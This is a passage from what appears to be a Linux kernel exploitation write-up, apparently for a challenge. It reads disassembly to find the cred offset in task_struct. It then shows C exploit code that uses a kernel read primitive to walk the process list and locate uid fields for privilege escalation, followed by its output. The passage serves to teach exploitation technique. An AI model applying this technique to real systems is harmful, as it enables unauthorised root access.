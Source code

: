 ```asm
ffffffff8120d9d8:       01 00 
ffffffff8120d9da:       48 39 c3                cmp    rbx,rax
ffffffff8120d9dd:       0f 85 a0 00 00 00       jne    ffffffff8120da83 <proc_pid_attr_write+0xe3>
ffffffff8120d9e3:       48 8b 83 18 06 00 00    mov    rax,QWORD PTR [rbx+0x618]
ffffffff8120d9ea:       48 39 83 20 06 00 00    cmp    QWORD PTR [rbx+0x620],rax
ffffffff8120d9f1:       0f 85 95 00 00 00       jne    ffffffff8120da8c <proc_pid_attr_write+0xec>
ffffffff8120d9f7:       41 be 00 10 00 00       mov    r14d,0x1000
ffffffff8120d9fd:       48 81 fd 00 10 00 00    cmp    rbp,0x1000
ffffffff8120da04:       4c 0f 46 f5             cmovbe r14,rbp
(...)
```

... from which we can infer that it's **either `0x618` or `0x620`** (`current_cred` vs `current_real_cred`). We'll go with `0x618`.

### Walking the task lists, with creds

```c
(...)

#define INIT_TASK 0xffffffff82211740
#define O_NEXT    0x388
#define O_CRED    0x618
#define BUF_SIZE  0x1000

int main() {
  open_pipeline();
  unsigned long task = INIT_TASK;
  copy_to_user(&task, (void*)(task+O_NEXT), 8);
  while((task-O_NEXT)!=INIT_TASK) {
    printf("Found process at 0x%lx\n", task-O_NEXT);
    void *cred_ptr;
    copy_to_user((void*)&cred_ptr, (void*)(task-O_NEXT+O_CRED), 8);
    int cred[16];
    copy_to_user(&cred, cred_ptr, sizeof(cred));
    for (int i=0;i<16;i++)
      if (cred[i]==1000)
        printf("   Found 1000 at index %d\n", i*sizeof(int));
    copy_to_user(&task, (void*)(task), 8);
  }
  return 0;
}
```

Let's try:

```bash
/ $ /exploit
Found process at 0xffff88807d7d0000
Found process at 0xffff88807d7d0c40
(...)
Found process at 0xffff88807cee55c0
Found process at 0xffff88807cee0000
   Found 1000 at index 4
   Found 1000 at index 8
   Found 1000 at index 12
   Found 1000 at index 16
   Found 1000 at index 20
   Found 1000 at index 24
   Found 1000 at index 28
   Found 1000 at index 32
Found process at 0xffff88807cee6e40
   Found 1000 at index 4
   Found 1000 at index 8
   Found 1000 at index 12
```